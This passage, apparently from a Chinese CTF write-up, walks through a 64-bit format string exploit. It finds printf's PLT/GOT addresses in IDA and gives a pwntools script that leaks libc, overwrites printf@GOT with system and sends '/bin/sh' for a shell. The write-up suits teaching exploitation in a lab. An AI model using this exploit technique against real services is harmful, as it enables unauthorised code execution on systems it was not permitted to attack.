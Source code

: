 通过字符串定位到 main 函数，这里没有识别为函数，需要手动创建函数。在 0x0400826 右键 creat function ，然后就可以反汇编了。

点进 printf@plt ，里面是跳转到 printf@got.plt 指令，也就是从 ida 知道了：

```
printf_plt = 0x4006B0
printf_got_plt = 0x601030
```

解题思路与 32 位一致，利用脚本：

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
# @Author  : MrSkYe
# @Email   : skye231@foxmail.com
# @File    : leakmemory_64_remote.py
from pwn import *
import binascii
context.log_level = 'debug'
p = remote('127.0.0.1',10000)

def leak(addr):
    payload = "%9$s.TMP" + p64(addr)
    p.sendline(payload)
    print "leaking:", hex(addr)
    p.recvuntil('right:')
    resp = p.recvuntil(".TMP")
    ret = resp[:-4:]
    print "ret:", binascii.hexlify(ret), len(ret)
    remain = p.recvrepeat(0.2)
    return ret

printf_plt = 0x4006B0
printf_got_plt = 0x601030

# name
p.recv()
p.sendline('moxiaoxi')
p.recv()

# leak printf@got
payload = "%9$s.TMP" + p64(printf_got_plt+1)
p.sendline(payload)
p.recvuntil('right:')
printf_got = u64(p.recv(5).ljust(7,'\x00')+'\x00')<<8
log.info("printf_got:"+hex(printf_got))

# libcdatabase
libc_base = printf_got - 0x055800
log.info("libc_base:"+hex(libc_base))
system_addr = libc_base + 0x045390
log.info("system_addr:"+hex(system_addr))

one = p64(system_addr)[:2]
two = p64(system_addr>>16)[:2]

payload = "%9104c%12$hn%54293c%13$hn" + 'a'*7
payload += p64(printf_got_plt) + p64(printf_got_plt+2)


p.sendline(payload)
p.recv()
p.sendline('/bin/sh\x00')


```